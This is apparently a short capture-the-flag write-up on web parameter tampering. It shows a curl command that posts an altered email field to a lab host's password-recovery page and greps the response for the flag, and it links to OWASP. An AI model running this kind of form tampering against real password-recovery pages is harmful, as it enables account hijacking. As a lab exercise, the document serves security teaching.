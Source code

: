 # Web Parameter Tampering

Go to the `http://$IPADDR/?page=recover` and change mail to another.

<details>
    <summary>Shell script that does the trick</summary>

```bash
curl -s -F "mail=M&L@ya.ru" -F "Submit=Submit" "http://IPDADDR/?page=recover" | grep flag
```

</details>

## References
Follow [this](https://owasp.org/www-community/attacks/Web_Parameter_Tampering) page for more details.